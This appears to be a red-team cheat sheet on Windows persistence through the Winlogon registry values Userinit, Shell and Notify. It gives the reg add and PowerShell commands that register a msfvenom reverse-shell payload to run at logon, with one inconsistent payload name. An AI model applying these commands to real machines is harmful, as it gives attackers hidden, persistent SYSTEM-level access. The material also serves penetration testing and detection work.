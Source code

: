 # Winlogon Helper DLL

> Winlogon is a Windows component which handles various activities such as the Logon, Logoff, loading user profile, etc. It is managed by the registry which defines which processes to start during Windows logon. These events can be the trigger that will execute an arbitrary payload for persistence.

_____
**Tactics:** Persistence, Privilege Escalation

**Platforms:** Windows

**Permissions Required:** Administrator, SYSTEM

**Notes:** Requires modification of the following registry keys:

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```
_____

### Userinit registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the userinit registry key to include our payload. Final version will be (C:\Windows\System32\userinit.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

4. Start a handler.
5. Profit.

### Shell registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the shell registry key to include our payload. Final version will be (C:\Windows\System32\explorer.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, pentestlab.exe" -Force
```

4. Start a handler.
5. Profit.

### Notify registry (older Windows versions):

> Typically found in older operating systems (prior to Windows 7). It points to a notification package DLL file which handles Winlogon events.

1. Generate a reverse shell payload using msfvenom (.dll format).
2. Drop that payload into the "System32" folder.
3. Replace the notify registry key with our payload.
4. Profit a SYSTEM shell.

_____

More info at [MITRE-T1547](https://attack.mitre.org/techniques/T1547/004/)
